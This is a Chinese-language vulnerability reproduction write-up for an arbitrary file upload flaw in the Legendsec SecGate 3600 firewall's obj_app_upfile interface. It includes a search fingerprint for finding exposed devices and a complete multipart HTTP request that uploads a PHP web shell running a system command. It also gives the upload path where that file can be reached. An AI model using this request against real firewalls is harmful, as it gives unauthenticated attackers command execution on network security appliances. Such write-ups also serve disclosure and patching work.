 ## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

fid="1Lh1LHi6yfkhiO83I59AYg=="

## 漏洞复现

登录页面

![image-20230810090932372](./网神 SecGate 3600 防火墙.assets/image-20230810090932372.png)

出现漏洞的文件 webui/modules/object/app.mds

![image-20230810090941737](./网神 SecGate 3600 防火墙.assets/image-20230810090941737.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![image-20230810090957770](./网神 SecGate 3600 防火墙.assets/image-20230810090957770.png)

```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件

![image-20230810091011621](./网神 SecGate 3600 防火墙.assets/image-20230810091011621.png)